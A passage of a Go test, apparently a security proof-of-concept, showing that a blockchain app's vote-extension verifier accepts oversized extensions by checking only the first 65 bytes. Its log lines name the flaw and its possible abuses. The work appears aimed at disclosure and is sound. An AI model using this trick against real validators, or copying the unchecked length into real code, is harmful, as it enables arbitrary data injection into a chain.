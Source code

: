 ```go
			EthAddress:       bytes.Repeat([]byte{1}, 20), // Simple mock address
		}, nil).
		AnyTimes()

	// Mock the public key
	mockPubKeyKeeper.EXPECT().
		GetValidatorKeyAtIndex(gomock.Any(), gomock.Any(), gomock.Any()).
		Return(publicKey, nil).
		AnyTimes()

	// Create our handler using the TestHandlers struct
	handler := &TestHandlers{
		batchingKeeper:        mockBatchingKeeper,
		pubKeyKeeper:          mockPubKeyKeeper,
		stakingKeeper:         mockStakingKeeper,
		validatorAddressCodec: authcodec.NewBech32Codec(sdk.GetConfig().GetBech32ValidatorAddrPrefix()),
		logger:                logger,
	}

	// Get the verify vote handler
	verifyVoteHandler := handler.VerifyVoteExtensionHandler()

	// Test with oversized but otherwise valid vote extension
	vvRes, err := verifyVoteHandler(ctx, &cometabci.RequestVerifyVoteExtension{
		Height:           100,
		VoteExtension:    oversizedExtension, // Valid signature + malicious data
		ValidatorAddress: testConsAddr,
	})

	// The verification should succeed despite oversized extension
	require.NoError(t, err, "Verification should succeed with oversized extension")
	require.Equal(t, cometabci.ResponseVerifyVoteExtension_ACCEPT, vvRes.Status,
		"Oversized extension should be incorrectly accepted")

	t.Log("VULNERABILITY CONFIRMED: Oversized vote extension with malicious payload was accepted")
	t.Log("Only the first 65 bytes were used for verification, the remaining bytes were ignored")

	// Confirm that just the valid signature portion also works
	vvRes, err = verifyVoteHandler(ctx, &cometabci.RequestVerifyVoteExtension{
		Height:           100,
		VoteExtension:    validSignature, // Just the valid signature
		ValidatorAddress: testConsAddr,
	})

	require.NoError(t, err)
	require.Equal(t, cometabci.ResponseVerifyVoteExtension_ACCEPT, vvRes.Status)

	t.Log("SECURITY IMPACT: This vulnerability allows validators to insert arbitrary data")
	t.Log("into the blockchain, potentially enabling:")
	t.Log("1. Covert communication between validators")
	t.Log("2. Storage of malicious payloads in the blockchain")
	t.Log("3. Potential exploitation of parsing vulnerabilities")
	t.Log("4. Blockchain bloat through unnecessary data")

	// Demonstrating the specific vulnerable code path in handlers.go
	t.Log("\nVULNERABLE CODE PATH:")
	t.Log("1. In app/abci/handlers.go, MaximumVoteExtensionLength = 65 * 5 (325 bytes)")
	t.Log("2. In verifyBatchSignatures(), only the first 65 bytes are used:")
	t.Log("   recoveredPubkey, err := crypto.Ecrecover(msgHash, voteExtension[:65])")
}
```
